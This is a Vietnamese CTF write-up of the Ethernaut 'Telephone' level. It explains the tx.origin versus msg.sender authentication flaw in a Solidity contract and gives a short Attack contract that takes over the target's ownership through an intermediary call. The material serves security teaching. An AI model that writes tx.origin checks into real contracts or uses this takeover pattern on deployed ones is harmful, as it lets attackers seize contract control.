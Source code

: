 ```yaml
---
title: "[Ethernaut CTF] Level 4: Telephone"
date: 2023-10-01 10:25:00 +0800
categories: [Blockchain, Ethereum]
tags: [Blockchain, Solidity, Ethereum, CTF]
published: true
image:
 path: https://ethernaut.zeppelin.solutions/imgs/BigLevel4.svg
---
```

# Level 4: Telephone
## ★☆☆☆☆
## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```
## Phân tích
- Ta thấy trong contract có tx.origin, vậy nó là gì và hoạt động ra sao ?
- Hiểu đơn giản về ``tx.origin`` là nếu bạn gọi function từ một contract A, trong function có có gọi function của contract B, thì tx.origin là địa chỉ của bạn còn msg.sender là contract A address.  

- Đây là một trong những lỗi bảo mật phổ biển của smart contract vì các dev thường hay nhầm lẫn giữa ``msg.sender`` và ``tx.origin``. Hậu quả của việc này thường là các cuộc phising attack.

## tx.origin và msg.sender

Hai biến này khá khác nhau, mặc dù cùng trả về address nhưng tx.origin sẽ trả về địa chỉ của địa chỉ tạo ra transaction còn msg.sender sẽ trả về địa chỉ gọi đến message đó.
> tx.origin (address): sender of the transaction (full call chain)

> msg.sender (address): sender of the message (current call)

![](https://miro.medium.com/v2/resize:fit:1200/1*Q_mcX4Po8JTKUS2yJhvcPQ.png)

Bạn có thể xem các global variable khác tại [đây](https://docs.soliditylang.org/en/v0.8.21/units-and-global-variables.html#block-and-transaction-properties)  
## Solution
**Target**: chiếm quyền owner của contract.  

- Compile và deploy contract này trên remix, sau đó gọi hàm ``claimOwwnership()``:  

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.6 <0.9.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
contract Attack {
    Telephone t;
   address my_addr = 0xee35AA525a1bc43aFb437C8F2b9a58B151A50e53;
   constructor(){
    t = Telephone(my_addr);
   }
   function claimOwnership() public {
      t.changeOwner(msg.sender);
   }

}
```
- Check lại owner:
```javascript
await contract.owner()
```
**Submit** -> Done

## Reference
https://medium.com/@natelapinski/the-difference-between-tx-origin-60737d3b3ab5



